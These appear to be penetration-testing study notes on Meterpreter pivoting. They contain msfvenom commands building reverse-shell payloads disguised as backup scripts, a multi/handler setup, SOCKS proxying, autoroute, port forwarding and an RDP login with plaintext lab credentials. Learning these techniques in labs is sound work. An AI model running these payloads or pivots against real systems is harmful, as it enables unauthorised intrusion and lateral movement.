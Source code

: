 

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080


Saved as: backupscript.exe
```

Keep in mind that we must transfer this payload to the Windows host. We can use some of the same techniques used in previous sections to do so.

#### Starting MSF Console

 
## Ping sweep a networking using pivot host:

you -> pivothost->internal network


step 1: 
get a reverse shell on the jumphost

``` title:create-shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```
step2:
Before copying the payload over, we can start a [multi/handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), also known as a Generic Payload Handler.
```
msf> use exploit/multi/handler


msf6 exploit(multi/handler) > set lhost 0.0.0.0

msf6 exploit(multi/handler) > set lport 8080

msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 0.0.0.0:8080 
```

Perform ping sweep using metasploit module:
```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23

[*] Performing ping sweep for IP range 172.16.5.0/23
```
Using metaspoloit instead of ssh for dynamic port and socks proxy:
```shell-session
msf6 > use auxiliary/server/socks_proxy

msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.
```
#### Confirming Proxy Server is Running

Meterpreter Tunneling & Port Forwarding

```shell-session
msf6 auxiliary(server/socks_proxy) > jobs

Jobs
====

  Id  Name                           Payload  Payload opts
  --  ----                           -------  ------------
  0   Auxiliary: server/socks_proxy
```
After initiating the SOCKS server, we will configure proxychains to route traffic generated by other tools like Nmap through our pivot on the compromised Ubuntu host. We can add the below line at the end of our `proxychains.conf` file located at `/etc/proxychains.conf` if it isn't already there.

#### Adding a Line to proxychains.conf if Needed

Meterpreter Tunneling & Port Forwarding

```shell-session
socks4 	127.0.0.1 9050
```
Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. We can use the `post/multi/manage/autoroute` module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

#### Creating Routes with AutoRoute
It is also possible to add routes with autoroute by running autoroute from the Meterpreter session.



```shell-session
meterpreter > run autoroute -s 172.16.5.0/23

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 172.16.5.0/255.255.254.0...
[+] Added route to 172.16.5.0/255.255.254.0 via 10.129.202.64
[*] Use the -p option to list all active routes
```



```shell-session
msf6 > use post/multi/manage/autoroute

msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.129.202.64
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.129.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.16.5.0/255.255.254.0 from host's routing table.
[*] Post module execution completed
```

After adding the necessary route(s) we can use the `-p` option to list the active routes to make sure our configuration is applied as expected.

#### Listing Active Routes with AutoRoute



```shell-session
meterpreter > run autoroute -p
```

---

## Port Forwarding

Port forwarding can also be accomplished using Meterpreter's `portfwd` module. We can enable a listener on our attack host and request Meterpreter to forward all the packets received on this port via our Meterpreter session to a remote host on the 172.16.5.0/23 network.

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19

[*] Local TCP relay created: :3300 <-> 172.16.5.19:3389
```
#### Connecting to Windows Target through localhost

  Meterpreter Tunneling & Port Forwarding

```shell-session
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
```
